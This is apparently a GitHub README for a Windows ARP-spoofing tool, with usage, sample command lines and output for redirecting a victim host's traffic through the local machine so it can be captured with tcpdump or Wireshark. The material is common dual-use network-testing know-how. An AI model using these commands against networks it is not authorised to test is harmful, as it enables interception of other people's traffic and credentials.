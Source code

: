 # arpspoof - A simple ARP spoofer for Windows

`arpspoof` mounts an [ARP spoofing](https://en.wikipedia.org/wiki/ARP_spoofing) attack against a host on the local network. This results in traffic from the attacked host to the default gateway (and all non-LAN hosts) and back going through the local computer and can thus be captured with tools like [Wireshark](https://www.wireshark.org/). `arpspoof` will also forward this traffic, so Windows does NOT have to be configured as a router.

### TL;DR:
```
C:\>arpspoof.exe 192.168.1.10
Resolving victim and target...
Redirecting 192.168.1.10 (00:11:22:33:44:55) ---> 192.168.1.1 (22:33:44:55:66:77)
        and in the other direction
Press Ctrl+C to stop
```

Then run `tcpdump` (or [Wireshark](https://www.wireshark.org/)) on the local host with the victim's MAC as a filter:
```
tcpdump ether host 00:11:22:33:44:55
```

When done, stop `arpspoof`:
```
^C
Unspoofing
Done
```

### Download

Download `arpspoof.exe` from the [Releases](https://github.com/alandau/arpspoof/releases) page.

### Usage
```
C:\>arpspoof.exe --help
arpspoof.exe --list | [-i iface] [--oneway] victim-ip [target-ip]
```
- `--list` lists the available network interfaces
- `victim-ip` is the IP of the host against which the spoofing attack is mounted (i.e., it is the host that will send us its traffic thinking we are the target host (the default gateway).
- `target-ip` is the host we are pretending to be (as far as `victim-ip` is concerned). If not specified, the default gateway is used as the target (and thus victim's Internet-bound traffic can be captured).
- By default, traffic in both the `victim -> target` and `target -> victim` directions are redirected to the local computer. `--oneway` makes only the `victim -> target` direction to be redirected.
- `-i iface`. An interface on which to spoof ARPs will be automatically detected based on the IP addresses and masks assigned to the local interfaces and `victim-ip`. Use this option to force a specific interface. Use `--list` to see the available options. Both `-i 1` and `-i \Device\NPF_{A91C1830-2930-4B12-8017-6664270142F4}` formats are supported.


List available interfaces for capturing/spoofing:

```
C:\>arpspoof.exe --list
1. \Device\NPF_{A91C1830-2930-4B12-8017-6664270142F4}   VirtualBox Host-Only Ethernet Adapter (VirtualBox Host-Only Network)
        192.168.56.1/24 gw=0.0.0.0
2. \Device\NPF_{9E13DC15-DBFB-4CE2-95D5-8DD283412185}   Intel(R) Dual Band Wireless-AC 8265 (Wi-Fi)
        192.168.1.10/24 gw=192.168.1.1
```

Make host 192.168.1.5 believe our computer to be the default gateway 192.168.1.1, and thus send us its Internet-bound traffic, and make the gateway 192.168.1.1 believe our computer to be 192.168.1.5, and thus send replies to us:

```
C:\>arpspoof.exe 192.168.1.5
```

The same, but only in one direction 192.168.1.5 -> 192.168.1.1. The other direction does not pass through our computer:

```
C:\>arpspoof.exe --oneway 192.168.1.5
```

### System Requirements

`arpspoof` was developed and tested on Windows 10. It should work on Windows Vista/7/8/10. It does NOT work on Windows XP, since it uses APIs introduced in Vista.

`arpspoof` uses [WinPcap](https://www.winpcap.org/) or [Npcap](https://nmap.org/npcap/) to send spoofed packets and forward traffic. WinPcap/Npcap should be installed for `arpspoof` to run. Npcap is the more modern one, so it is recommended to use that. Note that [Wireshark](https://www.wireshark.org/) installs Npcap by default, so having Wireshark installed should be enough.

